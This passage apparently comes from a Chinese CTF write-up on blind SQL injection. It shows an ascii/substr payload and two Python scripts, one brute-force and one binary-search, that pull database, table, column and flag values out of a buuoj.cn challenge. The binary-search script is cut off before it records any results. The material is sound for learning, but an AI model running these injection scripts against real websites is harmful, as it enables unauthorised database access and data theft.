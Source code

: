 二、加上ascii函数

```
if(ascii(substr((select/**/database()),1,1))>25,1,0)
```

这个payload在写脚本时直接遍历同样可以，也可用于二分法查找，二分法速度更快。

接下来的步骤就和联合注入一样，只不过使用substr函数一个一个截取字符逐个判断。但是这种盲注手工一个一个注十分麻烦所以要用到脚本。

直接遍历脚本

```python
import requests
table="qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890_{}_+,/"

data=''
for a in range(1,50):
    for b in table:
        url="http://d6b3e672-c286-4a75-b908-eca0d4844759.node4.buuoj.cn:81/?stunum=if(substr((select/**/database()),%d,1)='%s',1,0)"%(a,b)
        #url="http://d6b3e672-c286-4a75-b908-eca0d4844759.node4.buuoj.cn:81/?stunum=if(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),%d,1)='%s',1,0)"%(a,b)
        #url="http://d6b3e672-c286-4a75-b908-eca0d4844759.node4.buuoj.cn:81/?stunum=if(substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema)=database()),%d,1)='%s',1,0)"%(a,b)
        #url="http://d6b3e672-c286-4a75-b908-eca0d4844759.node4.buuoj.cn:81/?stunum=if(substr((select(group_concat(value))from/**/flag),%d,1)='%s',1,0)"%(a,b)
        r = requests.session().get(url,timeout=3)
        if "Hi admin" in r.text:
            data+=b
            print(data)
            break
```

二分法脚本

```python
import requests
url = "http://d6b3e672-c286-4a75-b908-eca0d4844759.node4.buuoj.cn:81/?stunum="

result = ""
i = 0

while( True ):
    i = i + 1 
    high=32
    low=127

    while( high < low ):
        mid = (high + low) // 2

        #payload = "if(ascii(substr(database(),%d,1))>%d,1,0)" % (i , mid)
        #payload = "if(ascii(substr((select/**/group_concat(table_name)from(information_schema.tables)where(table_schema=database())),%d,1))>%d,1,0)" % (i , mid)
        #payload = "if(ascii(substr((select/**/group_concat(column_name)from(information_schema.columns)where(table_name='flag')),%d,1))>%d,1,0)" % (i , mid)
        payload = "if(ascii(substr((select(group_concat(value))from/**/flag),%d,1))>%d,1,0)"%(i,mid)
        r = requests.get(url+payload)
        r.encoding = "utf-8"
        if "Hi admin" in r.text :
            high = mid + 1
        else:
            low = mid
    
    last = result
```